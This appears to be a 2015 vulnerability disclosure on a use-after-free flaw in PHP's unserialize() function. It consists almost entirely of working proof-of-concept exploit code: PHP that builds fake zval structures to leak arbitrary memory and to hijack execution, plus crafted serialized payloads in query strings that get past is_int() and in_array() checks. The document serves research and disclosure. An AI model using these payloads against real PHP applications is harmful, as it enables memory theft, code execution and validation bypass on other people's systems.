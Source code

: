 ### About PHP's unserialize() Function Use-After-Free Vulnerability
> Taoguang Chen <github.com/chtg> - 2015.1.24 @Ryat
 
i. Leak Arbitrary Memory
-------------------

##### Overwrite an fake string ZVAL POC:
``` php
<?php

fake_zval();

$data = 'a:2:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:1;O:8:"stdClass":6:{i:2;i:4;i:3;i:5;i:4;s:2:"AA";i:5;s:'.strlen($zval).':"'.$zval.'";i:6;s:'.strlen($zval).':"'.$zval.'";s:3:"ccc";R:4;}}';

$x = unserialize($data);
$y = serialize($x);
var_dump($y);

function fake_zval()
{
	global $zval;

	$addr = 0x100000000;

	$zval = ptr2str($addr);           
	$zval .= ptr2str(0x400);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x06";      
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
}

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}
```
	
ii. Execute Arbitrary Code
-------------------
 
### Overwrite an fake object ZVAL PoC:
``` php
<?php

fake_zval();

$data = 'a:7:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;i:3;i:5;i:4;s:2:"AA";i:5;s:'.strlen($zval).':"'.$zval.'";i:6;s:'.strlen($zval).':"'.$zval.'";s:3:"ccc";O:8:"stdClass":2:{s:3:"ddd";a:2:{i:0;R:4;i:1;i:2;}s:3:"ddd";i:3;}}';

$x = unserialize($data);
var_dump($x);

function fake_zval()
{
	global $zval;

	$addr = 0x41414141;

	$zval = ptr2str($addr);
	$zval .= ptr2str(0x11223344);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x05";      
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
}

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}
```

iii. Bypass Syntax Logical
-------------------

### Code sample 1:
``` php
$data = unserialize($_GET['data']);

if (is_int($data['ccc'])) {
	$ddd = 'ddd';
	$eee = 'eee';
	$fff = 'fff'.$_GET['fff'];
	$ggg = 'ggg';
	var_dump($data['ccc']);
} else {
	echo 'fuck';
}
```
 
Overwrite $data['ccc'] and bypass in_int()
 
PoC:
``` php
foo.php?data=a:3:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;i:1;i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;s:3:"ccc";R:5;}&fff=ryat
// Result: string(7) "fffryat"
```

Code sample 2:
``` php
<?php

$data = unserialize($_GET['data']);

if (is_string($data['ccc']) && in_array($data['ccc'], array('ccc'))) {
	$ddd = 'ddd'.$_GET['ddd'];
	$eee = 'eee';
	var_dump($data['ccc']);
} else {
	echo 'fuck';
}
```
	
Overwrite $data['ccc'] and bypass in_array()
 
PoC:
``` php
foo.php?data=a:4:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;i:3;i:5;s:3:"ccc";R:4;}&ddd=ryat
// Result: string(7) "dddryat"
```
 
iv. Others?
-------------------
 
v. Reference
-------------------
https://bugs.php.net/bug.php?id=68594
 
EOF
-------------------
